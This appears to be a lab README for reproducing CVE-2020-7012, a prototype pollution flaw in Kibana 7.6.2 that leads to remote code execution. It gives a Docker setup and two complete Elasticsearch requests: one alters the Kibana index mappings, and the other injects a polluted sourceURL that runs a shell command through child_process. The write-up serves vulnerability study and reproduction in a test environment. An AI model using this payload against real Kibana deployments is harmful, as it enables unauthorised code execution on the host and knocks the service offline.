 # Kibana 7.6.2 upgrade-assistant-telemetry Prototype Pollution Leads to RCE (CVE-2020-7012)

[中文版本(Chinese version)](README.zh-cn.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions between 6.7.0 to 6.8.8 and 7.0.0 to 7.6.2 contain a prototype pollution flaw in the Upgrade Assistant. An authenticated attacker with privileges to write to the Kibana index could insert data that would cause Kibana to execute arbitrary code. This could possibly lead to an attacker executing code with the permissions of the Kibana process on the host system.

References:

- <https://hackerone.com/reports/852613>
- <https://discuss.elastic.co/t/elastic-stack-6-8-9-and-7-7-0-security-update/235571>

## Setup

Start Kibana 7.6.2 and Elasticsearch 7.6.2 using Docker:

```bash
docker compose up -d
```

Once the environment is running, Kibana will be accessible at `http://your-ip:5601`.

## Vulnerability Reproduction

The remote code execution occurs when Kibana reading the `upgrade-assistant-telemetry` attribute of the saved object from Elasticsearch. So you can exploit this vulnerability by sending data directly to Elasticsearch or submitting queries through Kibana. Execution will occur either after Kibana is restarted or when data collection takes place (at an unknown time).

To reproduce the vulnerability, first go to the developer tools of the Kibana UI (the URL is `http://your-ip:5601/app/kibana#/dev_tools/console`), then send the following request to modify Kibana mappings to allow the custom `upgrade-assistant-telemetry` document:

```json
PUT /.kibana_1/_mappings
{
  "properties": {
    "upgrade-assistant-telemetry": {
      "properties": {
        "constructor": {
          "properties": {
            "prototype": {
              "properties": {
                "sourceURL": {
                  "type": "text",
                  "fields": {
                    "keyword": {
                      "type": "keyword",
                      "ignore_above": 256
                    }
                  }
                }
              }
            }
          }
        },
        "features": {
          "properties": {
            "deprecation_logging": {
              "properties": {
                "enabled": {
                  "type": "boolean",
                  "null_value": true
                }
              }
            }
          }
        },
        "ui_open": {
          "properties": {
            "cluster": {
              "type": "long",
              "null_value": 0
            },
            "indices": {
              "type": "long",
              "null_value": 0
            },
            "overview": {
              "type": "long",
              "null_value": 0
            }
          }
        },
        "ui_reindex": {
          "properties": {
            "close": {
              "type": "long",
              "null_value": 0
            },
            "open": {
              "type": "long",
              "null_value": 0
            },
            "start": {
              "type": "long",
              "null_value": 0
            },
            "stop": {
              "type": "long",
              "null_value": 0
            }
          }
        }
      }
    }
  }
}
```

Then send the second request to inject the malicious telemetry document:

```json
PUT /.kibana_1/_doc/upgrade-assistant-telemetry:upgrade-assistant-telemetry
{
  "upgrade-assistant-telemetry": {
    "ui_open.overview": 1,
    "ui_open.cluster": 1,
    "ui_open.indices": 1,
    "constructor.prototype.sourceURL": "\u2028\u2029\nglobal.process.mainModule.require('child_process').exec('touch /tmp/success')"
  },
  "type": "upgrade-assistant-telemetry",
  "updated_at": "2020-04-17T20:47:40.800Z"
}
```

![update kibana mappings](1.png)

Finally, you need to wait for a while for your payload to execute. If you don't want to wait, you can restart the Kibana server by `docker compose restart kibana`, and the malicious code will be executed after the service restarts.

As you can see, `touch /tmp/success` will be executed after the service restarts:

![index doc status](2.png)

> **Important note: After the exploitation, Kibana will crash and not able to start. You have to delete the `.kibana_1` index from ElasticSearch to restore the functionality.**
